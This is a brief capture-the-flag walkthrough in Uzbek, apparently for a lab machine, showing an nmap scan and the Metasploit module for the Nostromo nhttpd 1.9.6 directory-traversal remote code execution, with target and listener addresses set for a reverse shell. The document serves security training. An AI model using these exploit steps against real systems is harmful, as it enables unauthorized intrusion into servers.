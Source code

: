 **Reconnaissance**  
`nmap -sV 10.129.1.193`  

![image](https://github.com/user-attachments/assets/d4b5a5f1-cc1f-49e9-a43c-cc3fa038a1cf)  

Port 80 ochiq bo‘lgani uchun brauzer orqali 10.129.1.193 IP-manzilini tekshirib chiqamiz, ammo foydali narsani topa olmaymiz.  

![image](https://github.com/user-attachments/assets/e0ffbe0d-c885-42ba-95b9-7b9182b5ea06)  

Zaiflikdan foydalanish uchun Metasploit Framework dan foydalanamiz. Biz `Nostromo <= 1.9.6` versiyasidagi masofadan kod bajarish (RCE) zaifligini ekspluatatsiya qiluvchi modulni topdik. Ushbu muammo nostromo nhttpd ning `http_verify` funksiyasidagi directory traversal tufayli yuzaga keladi, bu esa tajovuzkorga maxsus yaratilgan HTTP so‘rovi orqali masofadan kod bajarishga imkon beradi.  

```
use exploit/multi/http/nostromo_code_exec
set rhosts 10.129.1.193
set lhost 10.10.14.52
exploit
```  
![image](https://github.com/user-attachments/assets/a4b19893-685d-42e9-8ffe-0ec6c7e25445)

